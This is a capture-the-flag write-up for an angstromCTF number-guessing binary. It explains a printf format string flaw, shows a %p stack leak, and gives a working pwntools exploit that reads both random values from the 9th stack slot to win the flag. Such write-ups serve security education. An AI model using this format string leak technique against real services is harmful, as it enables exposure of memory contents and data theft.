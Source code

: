 ### Solved by superkojiman

This challenge prompts us to guess the sum of two randomly generated values. The source code and binary are provided. Here's the important part of the code:

```
    srand(time(NULL));
    int rand1 = rand() % 1000000;
    int rand2 = rand() % 1000000;

    printf(buf);
    fflush(stdout);
    int guess;
    char num[8];
    fgets(num,8,stdin);
    sscanf(num,"%d",&guess);

    if (guess == rand1+rand2){
        printf("Congrats, here's a flag: %s\n", flag);
```

The vulnerability is in the call to `printf(buf)` right after the `rand()` is called. It allows us to leak variables on the stack using format strings. 

```
# ./guessPublic64
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max):
%p.%p.%p.%p.%p.%p.%p.%p.%p
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
0x7fffffffe2ec.0x53f.0xc0214.0x7ffff7dd10a4.0x7ffff7dd1120.0x7fffffffe428.0x100000000.0x400a50.0xc02140001d486's guess: 1234
Sorry, the answer was 906906. Try again :(
```

After analyzing the binary's behaviour in gdb, I realized that the 9th index in the stack leak contained the two randomly generated numbers. In the above, that would be 0xc02140001d486. Since we can leak the two randomly generated numbers, we can input the correct sum when prompted. 

Here's a working exploit:

```
#!/usr/bin/env python
from pwn import *
r = remote("shell.angstromctf.com", 1235)
print r.recv()

r.sendline("%9$p")
d =r.recv().split()
d = d[-2]
d = d[:-2]
print "leak:", d

n = int(d, 16)

x = n >> 32
y = n & 0xfffff

print "x =", hex(x)
print "y =", hex(y)
print "sum {0} + {1} = {2}".format(x, y, x+y)

r.sendline(str(x + y))
print r.recv()
```

And here it is in action printing out the flag: 

```
# ./sploit.py
[+] Opening connection to shell.angstromctf.com on port 1235: Done
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max):

    leak: 0xdf0e8000169df
    x = 0xdf0e8
    y = 0x169df
    sum 913640 + 92639 = 1006279
    Congrats, here's a flag: actf{format_stringz_are_pre77y_sc4ry}

    [*] Closed connection to shell.angstromctf.com port 1235
```
